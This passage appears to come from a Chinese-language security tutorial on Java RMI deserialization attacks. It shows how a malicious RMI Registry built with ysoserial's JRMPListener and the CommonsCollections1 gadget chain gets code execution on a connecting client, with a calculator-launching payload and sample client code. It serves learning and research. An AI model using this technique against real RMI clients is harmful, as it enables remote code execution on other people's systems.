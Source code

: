 运行恶意服务端后，客户端正常发起连接，造成反序列化攻击，完成 RCE
![image-20230111165345266](images/image-20230111165345266.png)

##### Registry攻击客户端

如果有兴趣，可以尝试分析一下 JRMP 协议，如果分析过该协议下的传输流量，会发现客户端与服务端的连接过程中， RMI Registry 会返回一些序列化数据到客户端上，因此如果能够构造一个恶意的 RMI Registry 来模拟 JRMP 通信，返回恶意序列化数据到客户端上，客户端进行反序列化就会造成反序列化攻击。

经过测试，通过`list()`、`bind()`和`lookup()`三种方法都能返回序列化数据到客户端上，这里我们使用 ysoserial 的`JRMPListener`模块帮我们搭建一个恶意的 RMI Registry
```java
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'open -a Calculator.app'
```

![image-20230111171849573](images/image-20230111171849573.png)

然后客户端正常连接，执行和 RMI Registry 的交互方法
```java
package com.rmi.client;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        registry.list();
    }
}
```
